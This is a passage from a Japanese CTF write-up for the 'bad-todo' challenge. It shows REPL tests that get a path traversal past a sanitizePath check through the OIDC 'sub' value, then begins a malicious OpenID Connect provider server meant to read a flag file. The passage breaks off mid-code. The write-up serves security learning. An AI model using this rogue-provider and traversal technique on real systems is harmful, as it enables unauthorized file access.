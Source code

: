 getUserTodos関数で呼び出されるdbファイルを`file://opt/bad-todo/storage/flag`に指定できればフラグを取得できそう。  
また、ソースコードを追っていくと、`idp`にはissuerのURL、`sub`にはsubが入ることがわかるため、攻撃者が用意した値をそのまま使うことができる。

後は、`file://${getStoragePath(idp, sub)}`が`file:///opt/bad-todo/storage/flag`となるように組み立てる方法を考える。

getStoragePath関数では、`sha256sum(idp)`でissuerのURLをハッシュ化しているため、`idp`は気にしないで良さそう。  
`sub`は先頭2文字目で分割され、それぞれ`first2`、`rest`に格納される。

後はsanitizePath関数による正規化処理を見てみる。

```js
> encodeURIComponent("../../flag")
'..%2F..%2Fflag'
> base = "aaaa/aa/..%2F..%2Fflag"
'aaaa/aa/..%2F..%2Fflag'
> location = "/opt/bad-todo/storage"
'/opt/bad-todo/storage'
> normalized = path.normalize(path.join(location,base))
'/opt/bad-todo/storage/aaaa/aa/..%2F..%2Fflag'
> relative = path.relative(location,normalized)
'aaaa/aa/..%2F..%2Fflag'
> relative.includes("..")
true
```

`rest`に`../../flag`を入れるとダメそうだが、`first2`に`..`を入れるとパストラバーサルできそうなことがわかる。

```js
> base = "aaaa/../flag"
'aaaa/../flag'
> location = "/opt/bad-todo/storage"
'/opt/bad-todo/storage'
> normalized = path.normalize(path.join(location,base))
'/opt/bad-todo/storage/flag'
> relative = path.relative(location,normalized)
'flag'
> relative.includes("..")
false
> path.dirname(normalized)
'/opt/bad-todo/storage'
```

攻撃文字列が入るように攻撃用サーバを用意する。

- `server.js`

```js
import express from "express";

const URL = process.env.ATTACKER_URL || "https://attacker.example.com";
const app = express();

app.get("/.well-known/openid-configuration", (_, res) => {
  res.json({
    issuer: URL,
    authorization_endpoint: `${URL}/auth`,
    token_endpoint: `${URL}/token`,
    userinfo_endpoint: `${URL}/userinfo`,
  });
});

app.post("/token", (_, res) => {
  res.json({
    access_token: "aaaaaaaaaaaaaaaaaaaaaaaaaaaa",
    token_type: "Bearer",
  });
});

app.get("/userinfo", (_, res) => {
```